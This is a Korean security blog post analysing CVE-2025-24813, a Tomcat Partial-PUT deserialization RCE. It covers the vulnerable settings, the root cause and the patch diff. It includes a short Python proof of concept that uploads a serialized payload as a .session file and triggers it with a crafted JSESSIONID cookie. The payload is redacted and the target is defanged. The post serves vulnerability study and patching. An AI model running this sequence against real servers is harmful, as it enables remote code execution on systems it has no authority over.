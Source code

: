 ```yaml
---
title: "[하루한줄] CVE-2025-24813 Apache Tomcat의 안전하지 않은 역 직렬화로 인한 RCE 취약점"
author: empty
tags:  [Apache Tomcat, Remote Code Execution, empty]
categories: [1day1line]
date: 2025-03-22 19:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL
- https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/blob/main/2025-03-14-Testing-CVE-2025-24813.md

## Target

- Apache Tomcat 11.0.0-M1 < 11.0.3
- Apache Tomcat 10.1.0-M1 < 10.1.35
- Apache Tomcat 9.0.0.M1 < 9.0.99

## Explain

CVE-2025-24813은 Apache Tomcat의 안전하지 않은 역 직렬화로 인한 RCE 취약점 입니다. 이 취약점의 근본 원인은, **`Partial-PUT`** 처리를 할 때, **`/work/`** 디렉토리에 파일을 업로드 하며 발생합니다. 직렬화된 페이로드를 세션 파일로 위장 업로드할 경우 톰캣이 해당 세션 파일을 읽게되며 RCE가 트리거됩니다.

[취약한 환경의 전제 조건]

1. web.xml에서 디폴트 서블릿 쓰기 권한 허용 (기본 설정: false)
2. PUT 요청 허용 (기본 설정: true)
3. 세션 지속성 유지 옵션 허용 (기본 설정: false)
4. 기본 임시디렉토리 경로 (기본 설정: $CATALINA_BASE/work)

- **`web.xml`** 서블릿 쓰기 권한

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>readonly</param-name> 
        <param-value>false</param-value> <!-- 취약한 설정 -->
    </init-param>
</servlet>
```

- **`context.xml`** 세션 유지 옵션

```xml
<!-- 취약한 설정 -->
<Manager className="org.apache.catalina.session.PersistentManager"
				 maxIdleBackup="1"
				 saveOnRestart="true"
				 processExpiresFrequency="1">
	<Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

- **`host.xml`** 임시 파일 기본 경로 설정

```xml
<attribute name="workDir" required="false">
  <p>Pathname to a scratch directory to be used by applications for
  this Host. Each application will have its own sub directory with
  temporary read-write use.  Configuring a Context workDir will override
  use of the Host workDir configuration.  This directory will be made
  visible to servlets in the web application by a servlet context
  attribute (of type <code>java.io.File</code>) named
  <code>jakarta.servlet.context.tempdir</code> as described in the
  Servlet Specification.  If not specified, a suitable directory
  underneath <code>$CATALINA_BASE/work</code> will be provided.</p> <!-- 임시 파일 기본 경로 -->

</attribute>
```

- 취약점 근본 원인

톰캣 서버 설정이 위와 같이 구성되어 있을 때 **`Partial-PUT`** 요청을 할 경우 **`executePartialPut`** 메소드에서 **`ServletContext.TEMPDIR`**라는 디렉토리에 파일을 업로드하도록 구현되어 있으며 해당 로직에서 2가지 취약점이 발생합니다.

```java
protected File executePartialPut(HttpServletRequest req, ContentRange range, String path) throws IOException {

		 // ServletContext.TEMPDIR = **$CATALINA_BASE/work (기본 값) -> 정보유출 + RCE**
     File tempDir = (File) getServletContext().getAttribute(ServletContext.TEMPDIR);

     // 디렉토리 경로를 .으로 치환 **-> 정보유출**
     String convertedResourcePath = path.replace('/', '.');
     File contentFile = new File(tempDir, convertedResourcePath);
     if (contentFile.createNewFile()) {
         contentFile.deleteOnExit();
     }
```

- 정보 유출

정상적인 **`Partial-PUT`** 요청으로 업로드 되는 파일이 있을 때 만약, 공격자가 업로드 되는 **`파일명을 미리 알고있을 경우`** 치환 로직**`path.replace('/', '.')`**을 통해 파일명을 추측하여 다운로드 받을 수 있게됩니다.

→ 업로드 경로: hxxp[://{VICTIM}/`.git/config` 

→ 임시 파일 경로: hxxp[://{VICTIM}/`work/.git.config`

임시 파일은 Tomcat 프로세스가 종료될 때 까지 유지되어 이로인해 정보 유출이 발생합니다.

- 임의파일쓰기 / 원격코드실행

공격자가 Partial-PUT Request를 통해 **`자바 가젯`**을 담아 **`.session 확장자`**로 파일을 생성할 경우, **`/work/`** 디렉토리에 생성됩니다. 해당 경로는 톰캣이 세션 지속성 옵션(**`PersistentManager, FileStore`**)이 활성화 되어있을 때, 세션을 저장하고 로드하는 경로이기 때문에 공격자가 악성 페이로드를 업로드 했을 경우 직렬화 되며 원격코드실행이 트리거됩니다.

- PoC 코드

```java
import requests
import base64
import os

TARGET_IP = "hxxp[:]//www.wiresharkworkshop[.]online:8080/"

# b64_encoded_payload = "****[information redacted]****"

output_file_path = "decoded_chain.bin"
decoded_content = base64.b64decode(b64_encoded_payload)

with open(output_file_path, "wb") as f:
    f.write(decoded_content)

put_url = f"{TARGET_IP}/gopan.session"
put_headers = {"Content-Range": "bytes 0-5/100"}

with open(output_file_path, "rb") as f:
    put_response = requests.put(put_url, data=f, headers=put_headers)
os.remove(output_file_path)

get_url = f"{TARGET_IP}/"
get_headers = {"Cookie": "JSESSIONID=.gopan"}
get_response = requests.get(get_url, headers=get_headers)
```

> https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/blob/main/2025-03-14-Testing-CVE-2025-24813.md
> 

해당 취약점은 다음과 같이 패치 되었습니다.

- RCE와 정보유출 방지를 위해 **`createTempFile`** 함수를 통해 파일명 난수화 및 확장자를 tmp로 처리

```java
@@ -658,13 +661,7 @@ protected File executePartialPut(HttpServletRequest req, ContentRange range, Str

661 File tempDir = (File) getServletContext().getAttribute(ServletContext.TEMPDIR);
662 - // Convert all '/' characters to '.' in resourcePath
663 - String convertedResourcePath = path.replace('/', '.');
664 - File contentFile = new File(tempDir, convertedResourcePath);
665 - if (contentFile.createNewFile()) {
666 - // Clean up contentFile when Tomcat is terminated
667 - contentFile.deleteOnExit();
668 - }
664 + File contentFile = File.createTempFile("put-part-", null, tempDir);
```

- 임시 파일 처리가 끝날 경우 바로 삭제

```java
@@ -636,6 +636,9 @@ protected void doPut(HttpServletRequest req, HttpServletResponse resp) throws Se
636 // Ignore
637 }
638 }
639 + if (tempContentFile != null) {
640 + tempContentFile.delete();
641 + }
```

## Reference

- https://github.com/advisories/GHSA-83qj-6fr2-vhqg
- https://github.com/apache/tomcat/commit/0a668e0c27f2b7ca0cc7c6eea32253b9b5ecb29c
- https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html
- https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html
